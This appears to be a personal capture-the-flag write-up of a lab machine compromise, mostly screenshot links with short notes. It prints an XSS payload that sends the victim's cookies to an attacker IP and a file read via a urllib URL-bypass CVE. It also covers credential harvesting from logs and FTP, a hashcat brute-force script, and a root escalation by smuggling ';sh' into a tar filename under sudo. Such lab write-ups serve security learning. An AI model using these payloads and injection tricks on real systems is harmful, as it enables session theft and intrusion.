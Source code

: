 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: #xss #lfi #reverse_eng #log_var

# Findings

## External
### Enumeration

![](https://i.imgur.com/nG3PHms.png)
![](https://i.imgur.com/dseNtZo.png)
- ![](https://i.imgur.com/APqkjDM.png)

	- meaning those ppls will check it, so i can create exploit for this XSS,CSRF
	- ![](https://i.imgur.com/oAjX7lv.png)

	- ![](https://i.imgur.com/zMEEPAf.png)
### Gaining Access
- ![](https://i.imgur.com/clBs0bj.png)
- ![](https://i.imgur.com/oGKB6gN.png)
- `user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4`
- ![](https://i.imgur.com/BvnV64J.png)
- as you see the dashboard displays the report name lets check it
	- ![](https://i.imgur.com/O3rifnV.png)
	- i wrote the report title "rexder" and it worked.

![](https://i.imgur.com/nG3PHms.png)
- As it says if the bug requires attention it will be **escalated to the admin** 
	- So if i make a report and escalate it by giving priority level high it will be sent to the admin.
	- For this i need to think how i can get the id
		- ![](https://i.imgur.com/2yd33ES.png)
		- The Payload i used before wont work on this one, bc we dont need to redirect us while changing the priority
			- `<script>var i=new Image(); i.src="http://10.10.16.52/?cookie="+document.cookie;</script>`
- ![](https://i.imgur.com/Jg8bI2c.png)
![](https://i.imgur.com/bFHzU8x.png)
![](https://i.imgur.com/VAVjvVu.png)
![](https://i.imgur.com/x06cFNY.png)
![](https://i.imgur.com/CiFRWaW.png)
![](https://i.imgur.com/B5pcPwp.png)
`eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5`
![](https://i.imgur.com/60n196q.png)

- we got the `/create_pdf_report` on the admin dash board
![](https://i.imgur.com/ltHg2N8.png)

![](https://i.imgur.com/mxqZdPb.png)
![](https://i.imgur.com/rUZSdTO.png)
https://vsociety.medium.com/cve-2023-24329-bypassing-url-blackslisting-using-blank-in-python-urllib-library-ee438679351d
![](https://i.imgur.com/Dq022TV.png)
i used psedo file -` /proc/self/cmdline`
![](https://i.imgur.com/M38Txhr.png)
- The Pseudo File ,Contains the command and the file name which runs.
	- ![](https://i.imgur.com/2DYu25C.png)
- based on our finding there is `python3 app/code/app.py` command. so the `/app/code/app.py` is the code.
	- ![](https://i.imgur.com/VIZsV3j.png)
- ![](https://i.imgur.com/dkox0In.png)![](https://i.imgur.com/uTidaM1.png)
- I tried to access the modules used on the python code ( `blueprints/dashboard/dashboard.py`) ,and got more python codes.
	- file:///app/code/blueprints/dashboard/dashboard.py
![](https://i.imgur.com/BGj7B4R.png)
![](https://i.imgur.com/wPOlIga.png)

`ftp.local : ftp_admin: u3jai8y71s2`![](https://i.imgur.com/5D7Oi0i.png)![](https://i.imgur.com/4tSk207.png)
![](https://i.imgur.com/84J5BGy.png)


## Internal
### Enumeration
 ftp://ftp_admin:u3jai8y71s2@ftp.local/private-8297.key
![](https://i.imgur.com/oeNgQ5K.png)
- ` ftp://ftp_admin:u3jai8y71s2@ftp.local/welcome_note.txt`
	- ![](https://i.imgur.com/Sr23aaT.png)
`Y27SH19HDIWD`
### Gaining Access
- ![](https://i.imgur.com/ne594gC.png)
	- I got user name and also removed the passphrase 
- ![](https://i.imgur.com/IFgUa0g.png)
- ![](https://i.imgur.com/dPiczfH.png)

![](https://i.imgur.com/kdN3lEb.png)
- Cracked with Hashcat
	- ![](https://i.imgur.com/LEld3Vu.png)
- `adam : adam gray`
- ![](https://i.imgur.com/0c56thb.png)
- Doing local port forwarding and tryin port 4444 and 33641
	- `4444`
		- Tried to check it but as we know the xss executed automatically most of the tim that is done using headless browsers, one of them is selenium, so i skipped checking it.![](https://i.imgur.com/kuSFz1B.png)
	- `172.21.0.1:ftp` on dev_acc
		- ![](https://i.imgur.com/BbWl9xV.png)- ![](https://i.imgur.com/Q7fpv4j.png)
- ![](https://i.imgur.com/wv6lhhd.png)
- I though the password was thee `UH...` so i tried to finish that and i have also got MD5 Hash from the 
	- ![](https://i.imgur.com/QUzxz5B.png)
- The Code do comparing 
	- ![](https://i.imgur.com/b8336g1.png)
- So i can generate wordlist and crack the md5 `0feda17076d793c2ef2870d7427ad4ed`
```python
# Function to generate alphanumeric combinations
def generate_combinations():
    characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    for a in characters:
        for b in characters:
            for c in characters:
                for d in characters:
                    yield a + b + c + d

# Replace the asterisks with generated combinations
original_string = "UHI75GHI****"
combinations = generate_combinations()

# Generate the list of consecutive combinations
result_list = [original_string.replace("****", next(combinations)) for _ in range(10000000)]

# Save the generated list to a file
with open("result.txt", "w") as file:
    file.write('\n'.join(result_list))
```
- `hashcat -m 0 -a 0 0feda17076d793c2ef2870d7427ad4ed result.txt`
	- ![](https://i.imgur.com/XYEDK48.png)
`UHI75GHINKOP`
- ![](https://i.imgur.com/c8PzYn0.png)
![](https://i.imgur.com/6Yt2fpc.png)
- while enumertaing var file i got some readable files
	- ![](https://i.imgur.com/ByC8nAi.png)
- so i used grep it does work but i used zgrep for the gz files.
	- ![](https://i.imgur.com/PedOqjd.png)
	- ![](https://i.imgur.com/S1Ftj1N.png)
```json
suricata/eve.json.7.gz:12477:{"timestamp":"2023-09-28T17:44:48.188361+0000","flow_id":1218304978677234,"in_iface":"ens33","event_type":"ftp","src_ip":"192.168.227.229","src_port":45760,"dest_ip":"192.168.227.13","dest_port":21,"proto":"TCP","tx_id":2,"community_id":"1:hzLyTSoEJFiGcXoVyvk2lbJlaF0=","ftp":{"command":"PASS","command_data":"Lopezz1992%123","completion_code":["230"],"reply":["Login successful."],"reply_received":"yes"}}
```
- ` lopez : Lopezz1992%123 `
### Maintaining Access
![](https://i.imgur.com/QFWcdAJ.png)
![](https://i.imgur.com/ZD2yFDt.png)
- Reverse the runner2 with ghidra
	- ![](https://i.imgur.com/ZUYxvrf.png)
	- ![](https://i.imgur.com/wT7cxXm.png)
	- ![](https://i.imgur.com/TvrQVmf.png)
	- ![](https://i.imgur.com/hNQywlB.png)
	- ![](https://i.imgur.com/tR2HNaE.png)
	- ![](https://i.imgur.com/6j1XymU.png)
	- ![](https://i.imgur.com/FMew2Kq.png)
		- ![](https://i.imgur.com/oLyfbyv.png)
	- ![](https://i.imgur.com/CEWDXJw.png)
	- I made the hello file tar ![](https://i.imgur.com/FGkgysH.png)
		- ![](https://i.imgur.com/1azDVc6.png)
		- As you see it is displaying our filename, so i thought to use `;sh` on the name
		- ![](https://i.imgur.com/o8GAT1g.png)
	- ![](https://i.imgur.com/4U4QLlj.png)
- `echo '{"run":{"action": "install", "role_file": "/home/lopez/hello.tar;sh"}, "auth_code": "UHI75GHINKOP"}' > exploit`
- `sudo ./runner2 ~/exploit` 
![](https://i.imgur.com/4qtOWYo.png)

# Random Notes

╔══════════╣ Unexpected in /opt (usually empty)
total 28
drwxr-xr-x  7 root root  x 19 root root    4096 Apr 10 07:40 ..
drwx--x--x  4 root root    4096 Aug 26  2023 containerd
drwxr-xr-x  4 root root    4096 Sep 19  2023 ftp
drwxr-xr-x  3 root root    4096 Apr 10 08:21 google
drwxr-x---  2 root sys-adm 4096 Apr 10 08:21 playbooks
drwxr-x---  2 root sys-adm 4096 Apr 10 08:21 runner2


